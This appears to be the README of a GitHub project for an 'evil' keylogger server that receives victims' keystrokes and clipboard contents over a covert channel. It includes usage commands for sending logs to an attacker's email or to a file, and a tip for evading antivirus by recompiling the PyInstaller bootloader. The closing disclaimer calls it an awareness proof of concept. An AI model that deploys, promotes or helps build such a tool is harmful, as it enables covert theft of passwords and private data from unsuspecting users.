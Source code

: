 ![Screenshot_20231005_033920](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/8c3b2b16-ae6d-467b-82a3-0e8c0b89c46a)

<div>
    <img src="https://img.shields.io/badge/Language%20-Python3-green.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Tool%20-Keylogger, Covert Channel-blue.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Type%20-Script-violet.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Target OS%20-Windows, Linux-red.svg" style="max-width: 100%;">
    <img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square style="max-width: 100%;">
</div>

# Evil keylogger server (Covert Channel)

* ***Feel free to modify it as you see fit, as it serves as a proof of concept and can be improved in many ways.***

This project focuses on a malicious server that remotely receives keyboard logs and data saved on the victim's clipboard, emulating an illegal covert channel between the victim and the attacker. When the victim runs the keylogger, the first thing it will do is connect to the attacker's remote server and send the logs in real time.

And it has been carefully designed to present the keyboard logs in the most user-friendly way possible.

****(Remember to add your local or proxy IP address in the keylogger script)****

### Evading the antivirus (Windows 10/11):
Simple technique: Compile the PyInstaller bootloader locally using Microsoft C/C++ compiler and then use pyinstaller to compile the keylogger code.

# Optionals 

#### Send the keyboard logs to the attacker's e-mail address

`./app.py 192.168.32.34 -e smtp.gmail.com`

![ezgif com-video-to-gif](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/0bd58f4c-d3d9-4dc8-9e48-96f087d7e6c6)


#### Write the keystroke logs to a file

`./app.py 192.168.18.20 -f keylogs.txt`

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Keylogger-Evil_Server/assets/103542430/a92f9295-a0a4-43f6-9270-38004afee560)

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It primarily serves as a proof of concept and is intended to raise awareness about cybersecurity
